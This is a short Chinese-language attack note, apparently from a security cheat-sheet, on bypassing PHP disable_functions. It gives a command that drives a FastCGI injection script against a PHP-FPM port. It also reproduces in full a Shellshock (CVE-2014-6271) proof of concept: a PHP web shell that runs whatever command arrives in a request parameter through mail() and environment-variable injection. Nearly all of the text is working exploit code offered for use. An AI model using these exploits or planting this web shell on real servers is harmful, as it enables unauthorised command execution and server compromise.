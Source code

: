 
**攻击 php-fpm/FastCGI bypass disable_functions 绕过**

Web Server 只是负责分发数据，那如果 Nginx 遇到 php 动态请求该怎么处理，这时就需要了解 PHP-FPM 和 FastCGI 了.
php-fpm是实现FastCGI协议的一个介于webserver(如nginx)和php解释器的一个程序，事实上php-fpm内嵌有php解释器。webserver将用户请求按照fastcgi协议打包发给php-fpm，经php解释器解析后将标准内容再返回给webserver。

PHP5.3 版本之后，PHP-FPM 是内置于 PHP 的，一般来说，尤其是在高并发的情况下，nginx + PHP-FPM 的组合要比 apache + mod_php 好很多.

使用 `fpm.py` 脚本:https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

本地测试
```
python fpm.py -c '<?php echo `id`;exit;?>' -p 9999 127.0.0.1 /var/www/html/test.php
```





**PHP 5.x Shellshock Exploit**

> PHP < 5.6.2 'Shellshock' Safe Mode

[exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

